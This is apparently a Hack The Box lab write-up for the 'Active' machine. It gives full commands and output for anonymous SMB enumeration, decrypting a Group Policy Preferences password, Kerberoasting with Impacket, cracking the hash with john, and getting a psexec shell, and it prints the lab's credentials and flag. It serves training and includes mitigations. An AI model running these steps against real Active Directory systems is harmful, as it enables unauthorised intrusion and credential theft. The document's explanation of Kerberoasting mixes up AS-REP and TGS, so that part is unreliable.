 # 1. Executive Summary

The tester successfully penerated the target system. The tester retrived a credential from the running server on the target, and gained higher privilege credential by abusing Single-Sign-On misconfiguration. 


## 1.1 General information
IP: 10.10.10.100
Tester: LifeTimeScriptKiddie
Target: Active.htb 10.10.10.100
Used tools: nmap, smbclient, Impacket-, smbmap, gpp-decrypt

## 1.2 Vulnerability - MITRE Attack Tree
T1555 - 
Credential Access -> Credentials from Password Stores
T1558 -
Steal or Forge Kerberos Tickets

Mitigation
M1015 - Active Directory Configuration

## 1.3 Technical Summary
SMB account credential was exposed. The tester logged into SMB server using null credential, retrieved GPP encrypted credential, and used the decrypted credential to do Kerberoasting. 


## 1.4 Recommendation: 
1. Remove the exposed credentias from the SMB server. 
2. Remove Null access on SMB server unless it is absolutely required. 
3. Give minimum required access to normal user account. 


# 2. Technical Detail 

## 2.1 Port Scanning using nmap
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-04 06:24 EDT
Nmap scan report for 10.10.10.100
Host is up (0.033s latency).
Not shown: 982 closed tcp ports (reset)
PORT      STATE SERVICE           VERSION
88/tcp    open  kerberos-sec?
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap?
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  globalcatLDAP?
3269/tcp  open  globalcatLDAPssl?
49152/tcp open  msrpc             Microsoft Windows RPC
49153/tcp open  msrpc             Microsoft Windows RPC
49154/tcp open  msrpc             Microsoft Windows RPC
49155/tcp open  msrpc             Microsoft Windows RPC
49157/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc             Microsoft Windows RPC
49163/tcp open  msrpc             Microsoft Windows RPC
49176/tcp open  msrpc             Microsoft Windows RPC
...snip...

Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-11-04T10:27:08
|_  start_date: 2022-11-04T10:22:51

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 181.70 seconds

```

## 2.2 SMB enumerationg using smbmap and smbclient.

```
└─$ smbmap -H 10.10.10.100 
[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS

```

The tester downloaded the entire Replication disk. Then manually searched for interesting file. Groups.xml file indicates username and cpassword. 
After a little bit of research, the tester was able to decrpt the cpassword hash. 

```bash
└─$  impacket-smbclient active.htb/@10.10.10.100                                                             
recurse OFF
mget *


└─$ cat Groups.xml         
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>


┌──(kali㉿kali)-[~/…/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups]
└─$ cat password  
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```



## 2.3 Kerberos attack. 

Kerberos is one of SSO technology that authenticates service requests between two or more trusted hosts across an untrusted network. 

### 2.3.1 Kerberoasting  AS-REP
A quick summarize. The tester used retrived credential to request SPN to KDC. The KDC verified the credential and returned TGT (AS-REP). And the TGT contains user's identification which is encrytyped with KDC secret key. 
The tester decrypted the krb5tgs using john and rockyou.txt. 


```
┌──(kali㉿kali)-[~]
└─$ impacket-GetUserSPNs  active.htb/svc_tgs          
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2022-11-16 20:52:29.474565       
```

```

└─$ impacket-GetADUsers active.htb/svc_tgs:GPPstillStandingStrong2k18


└─$ impacket-GetUserSPNs active.htb/svc_tgs:GPPstillStandingStrong2k18 -outputfile outputTGS.txt

└─$ cat outputTGS.txt 
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$e4601375d36b55e14352299b9e4d1195$22242432fef9831a51e
cc59ad94e400edae38e381496423456b8439ebf6e10790dcee018c55d6fb6d1287a8df90e4ff1d6ab98de25d7716b797a2fc5347f5a8b6a5666e
35c3b9194b0be5808089f69e46b61bd76a7c0ea597b0accc547fa19809492b281e8db5afc7543dbd72d6751f0cb5006963848e883328f163590e
dfb4f9174fae0f8db2f7c71e07420c18a1819bc7ccf485116bf4c365f959632da79b792d3e6c2687dbff13dc4fc12f67ac6ecd280e5fc4e628b8
e9dc6dbc1783bce5725cf8096c0d58652dc62ec60e4687ae1f1ea1c89282d8209531bdad90b973fa56bd7140eae9154b82a8fad5017dc1a61475
579a5f8fcb83b5a77eb243a0ce60dcc1ef35ec72d483e9c276e538015aeec445a85a5f3746404babf62fc6bfc982d40270229bf82c7d0f23e95f
49f1b1311ce2d677bdc7e58f3c042eb9ab3714c56692ece5984c22186d5d90a6846d67946b3312002eae1961511ab7ed60c6b7fe7278e8d116cc
0097c7bb1924cd27400cad38942c23d52a331793be755a50c90517abf0f4ab20470f858a804520313a6ac0959073a2eda95eda80145e09daf819
3587bc6d3a1e1c35a1f0f66fff03544997d33e080b9d91fa660e420ef1997896d14c17fbd44e81aa6434a200eab80af2e53bc2b5faa8104bf26e
065a3260c20f463e80b38603d3a8dfafdb3e8ac82dca24e67744dfa08dbb26f9f58e609430f4bbda22919338a546a1b2d4a258acbc3508b48844
3aafc4f048a176a65204a50935544b81163a9f22118a8f6b8b5de35f9df0c01327bcf542a25ca809d3955aaa57aa82945502b4819f474fb31630
aeda83c75a1dde2daa80e3dc4065ba4097bda620441f866ab64879249e8d6044cb89ec48bfc151f4b62c98a46c4f086487e3597c50d9e0ee4fce
ae27fbba34427ab3abef933ee5987167434cac7101da8a4fff1b628522e7ff781fbd6c44cc6e24a70ac1e56240db80e67c1857058d96c881601e
c9dffa4d61ce9d61b78000039f61c4f229e314e5c4d20aa47730ed502314e80d25e4cbb67fa6a2e088d18be3cd02dd0e41bb99afcf8c95f5590b
d60039b7e8a5f6df4eb791cb5345b454b2380cf211825876595b511283886733beaaea7060fc398a19329686d8e7a91fe347da23dddebeef75fe
421417081b57110cb9ed59d53a74551882ed762cd7c43502b8a2960e22685d2da87662bfa8a17a3a3646a48212fcdf8817b6e5240a2ef9111605
0b51b0b21c828b2cce67a


┌──(kali㉿kali)-[~/HTB/ACTIVE]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt outputTGS.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:04 DONE (2022-11-16 22:32) 0.2127g/s 2242Kp/s 2242Kc/s 2242KC/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


```


## 2.4 System shell using impacket-psexec
```
└─$ impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100 


c:\Users\Administrator\Desktop> type root.txt
ea0179d65184342d3d66318b0312e378
```


# 3. Resources
https://www.hackthebox.com/achievement/machine/288193/148

https://superuser.com/questions/856617/how-do-i-recursively-download-a-directory-using-smbclient

https://github.com/jtpereyda/regpol

https://infinitelogins.com/2020/09/07/cracking-group-policy-preferences-file-gpp-xml/

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
https://www.hackingarticles.in/abusing-kerberos-using-impacket/
https://www.hackingarticles.in/kerberoasting-and-pass-the-ticket-attack-using-linux/
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux